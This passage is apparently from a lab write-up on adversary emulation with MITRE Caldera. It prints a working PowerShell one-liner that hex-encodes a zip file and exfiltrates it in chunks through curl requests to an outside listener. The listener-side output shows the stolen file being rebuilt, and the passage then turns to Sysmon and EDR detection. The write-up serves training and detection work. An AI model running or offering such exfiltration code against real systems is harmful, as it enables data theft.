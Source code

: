 Four accounts were identified: (Administrator, DefaultAccount, Guest, WDAGUtilityAccount)

**Collection**: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol (T1048.003)

![image.png](attachment:91d2747e-2ac7-4aa4-a16b-23f49c9774ec:image.png)

**Efiltration**: For the last ability, it didn't run till I modified it from the **adversary profile** and changed the executor to **psh** 

![image.png](attachment:82d4c521-6ae6-4eed-9150-31cc1b3e23e1:image.png)

```powershell

$file="$env:TEMP\exfil.zip"; $destination="http://10.10.1.65:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."
```

![image.png](attachment:5196d0cb-5188-4876-bc75-29f0f034a38e:image.png)

![image.png](attachment:c99f040a-42ee-48a1-8121-6cf8a704ca91:image.png)

![image.png](attachment:492a6bfd-31f2-4194-a2ad-25d208ce1923:image.png)

There were 23 HTTP GET requests. If you want to decode the hex, combine all the hex values and save them to a file 

```powershell
504B03041400000008002E9B7D56A1A236FD430000005A0000001C000000446F776E6C6F6164735C73656E7369746976655F646174612E747874FBFFCF99219F218F219DA1882191A184A19421074C6782458B191419141842183280FC62200B4226027131432A583E13ACB60CC853604801EB4C64D063E065E0620000504B010214001400000008002E9B7D56A1A236FD430000005A0000001C0000000000000000000000000000000000446F776E6C6F6164735C73656E7369746976655F646174612E747874504B050600000000010001004A0000007D00000000    
```

Then decode it as a zip file

```powershell
root@ip-10-10-1-65:~/Rooms/caldera/http_server# ls
exfilterat.txt  ex.zip  PhishingAttachment.xlsm
root@ip-10-10-1-65:~/Rooms/caldera/http_server# ls
'Downloads\sensitive_data.txt'   exfilterat.txt   ex.zip   PhishingAttachment.xlsm
root@ip-10-10-1-65:~/Rooms/caldera/http_server# cat 'Downloads\sensitive_data.txt' 
\ufffd\ufffdCongratulations! This is a sensitive data.

```

## Emulation on Detection

Review the events generated by executing the emulation activity of the previous task. The logs provided are:

- Sysmon
- AuroraEDR
